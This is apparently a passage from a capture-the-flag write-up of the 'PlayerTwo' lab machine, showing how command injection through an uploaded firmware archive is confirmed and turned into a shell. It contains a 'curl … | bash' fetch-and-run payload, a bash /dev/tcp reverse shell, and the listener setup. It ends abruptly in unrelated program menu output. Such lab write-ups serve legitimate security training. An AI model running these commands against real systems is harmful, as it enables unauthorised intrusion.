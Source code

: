 #### ping

I’ll start by trying to think of command I can run in 28 characters to test my theory. `ping` seems like a good test case:

![image-20200122205815988](https://0xdfimages.gitlab.io/img/image-20200122205815988.png)

I add it to a `.tar`, upload it, and watch `tcpdump`:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:58:48.055752 IP player2.htb > kali: ICMP echo request, id 46845, seq 1, length 64
20:58:48.055770 IP kali > player2.htb: ICMP echo reply, id 46845, seq 1, length 64

```

#### Shell

Now that I know I can execute, I’ll use `curl` to have PlayerTwo reach out to me for more code, and pipe that to shell. Here’s a payload that’s 25 characters long:

```

root@kali# echo -n "curl 10.10.14.11/s | bash" | wc -c
25

```

Update `Proto.bin`:

![image-20200122210251592](https://0xdfimages.gitlab.io/img/image-20200122210251592.png)

Repackage the `.tar`:

```

root@kali# rm mod.tar; tar zcf mod.tar info.txt Protobs.bin version 

```

I’ll also create a simple reverse shell Bash script named `s`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.11/443 0>&1

```

Now start the Python webserver, and `nc` listener on 443. I’ll upload the `.tar`. First, I see the hit on the webserver:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.170 - - [22/Jan/2020 21:05:42] "GET /s HTTP/1.1" 200 -

```


 [ Game                ]: test
 [ Contrast            ]: 1
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Contrast            ]: 1
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript
